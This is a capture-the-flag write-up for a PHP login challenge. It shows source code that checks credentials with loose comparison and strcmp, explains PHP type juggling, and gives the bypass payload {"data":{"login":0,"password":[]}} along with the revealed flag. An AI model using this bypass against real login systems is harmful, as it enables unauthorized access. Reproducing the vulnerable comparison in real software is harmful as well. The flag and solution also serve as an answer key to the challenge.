

```php
<?php

// $FLAG, $USER and $PASSWORD_SHA256 in secret file
require("secret.php");

// show my source code
if(isset($_GET['source'])){
    show_source(__FILE__);
    die();
}

$return['status'] = 'Authentication failed!';
if (isset($_POST["auth"]))  { 
    // retrieve JSON data
    $auth = @json_decode($_POST['auth'], true);
    
    // check login and password (sha256)
    if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
        $return['status'] = "Access granted! The validation password is: $FLAG";
    }
}
print json_encode($return);
```

This challenge involves PHP type juggling

Given the following JSON input:

```json
{
"data":
{
"login":"a",
"password":"5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9"
}
}
```
The application checks if the provided credentials match the stored ones. However, due to PHP's loose comparison behavior, we can bypass these checks.

[docs](https://secops.group/php-type-juggling-simplified/)



**Bypassing the Login Check**

To bypass the login validation, I modified the login parameter to **true** or **0**, since PHP treats these as loosely equal to any string in a comparison.

**Bypassing the Password Check**

To bypass the hash check, i use the method in this [doc](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20loose%20comparison%20-%20Type%20Juggling%20-%20OWASP.pdf)
```php
Instead of POSTING a password string:
password=notThePassword
Submit an array:
password[]=
PHP translates POST variables like this to an empty array which
causes strcmp() to barf:
strcmp(array(), "thePassword") -> NULL
```
```php
Lets take a look at the strcmp usage again:
if (strcmp($_POST['password'], 'thePassword') == 0) {
// do authenticated things
}
Lucky for us, thanks to type juggling, NULL == 0. Auth bypass!
```

The final payload is `{"data":{"login":0,"password":[]}}`

```
{"status":"Access granted! The validation password is: DontForgetPHPL00seComp4r1s0n\n"}
```